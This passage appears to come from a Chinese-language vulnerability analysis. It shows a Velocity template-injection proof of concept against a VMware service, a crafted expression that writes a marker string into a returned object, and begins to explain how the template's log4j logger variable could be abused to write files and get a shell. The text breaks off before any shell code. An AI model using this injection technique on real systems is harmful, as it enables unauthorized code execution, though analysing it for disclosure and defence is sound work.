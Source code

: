 ```bash
VelocityHelper.executeVelocityExpression("#set($modelKey = $LOCAL-resourceItem.resourceItem.getKey())##\n" +
                "#set($objectId = \"vim.ServiceInstance:$modelKey.value:$modelKey.serverGuid\")##\n" +
                "#set($obj = $LOCAL-cdf20Result.newObject(\"vim.ServiceInstance\", $objectId))##\n" +
                "$obj.addProperty(\"OSTYPE\", \"VMware can't steal this PoC\")##\n" +
                "$obj.addProperty(\"BUILD\", $content-about-build)##\n" +
                "$obj.addProperty(\"VERSION\", $content-about-version)##", this.velocityInvocationContext.velocityEngine, this.velocityInvocationContext.velocityContext, logTag);
this.velocityInvocationContext.velocityJsonLd.object;
```

转换成 json 返回  
[![](assets/1704161823-0797fc246e6015ac867027e72f8a6e2c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221011122423-955c9006-491c-1.png)

### velocity GLOBAL-logger 利用构造

既然已经清楚了 poc 是怎么构造的，那么如何 getshell，自然是从 context 里已有的变量里下手，其中注意到有个`GLOBAL-logger`,是 log4j 的实例，之前分析的漏洞点就是通过 log4j 写文件的。  